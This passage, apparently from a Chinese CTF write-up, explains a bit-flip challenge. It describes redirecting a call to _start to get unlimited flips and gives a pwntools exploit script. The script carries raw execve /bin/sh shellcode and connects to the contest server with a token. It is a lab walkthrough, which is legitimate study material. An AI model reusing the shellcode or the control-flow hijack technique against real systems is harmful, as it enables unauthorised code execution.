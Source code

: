 ```python

param = '&'.join([f'r_{c}={best.count(c)}' for c in alphabet])
r = requests.get(f'http://202.38.93.111:10150/result?{param}', cookies=cookies)
print(r.text)
```

## 超精准的宇宙射线模拟器

一般来说，这种题的套路就是先劫持控制流，获得无限次翻转的机会，然后就可以为所欲为了。

首先观察代码，发现可以修改 0x401296 上的第 4 个 bit，将原本 `call sub_4010C0` 修改成 `call _start`（两个函数的起始地址只有一个比特相差）这样就先做到无限次翻转的可能了。

然后剩余的很简单了，找个空位置把 shellcode 写进去，然后修改下 `loc_40129A` 的起始指令为 `call`，目标为 shellcode 的位置，接着输入 `0 9` 让其在判断非法输入后跳到 `loc_40129A` 并接着跳到 shellcode，完成！

```python
from pwn import *

context.log_level = 'debug'
local = False

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

if local:
    r = process('./bitflip')
else:
    r = remote('202.38.93.111', 10231)
    r.sendlineafter('Please input your token:', '576:MEYCIQCGcfReykZRJavQ7Frn38feV8te705pgRy7p/xNdBryjQIhAP6zs4eY+t99jVm9uoIBFsufzIHU7jyjw8ilJ8xFufbx')
e = ELF('./bitflip')


def change(addr, idx):
    r.sendlineafter('Where do you want to flip?', f"{hex(addr).replace('0x','')} {idx}")

def changes(addr, data):
    ram = e.read(addr, len(data))
    for i in range(len(data)):
        diff = ram[i] ^ data[i]
        for j in range(8):
            if diff & (1 << j) != 0:
                change(addr + i, j)

change(0x401296, 4)
changes(0x401400, shellcode)
changes(0x40129a, b'\xe8\x61\x01\x00\x00') # 129f
change(0x401296, 9)
r.interactive()
```
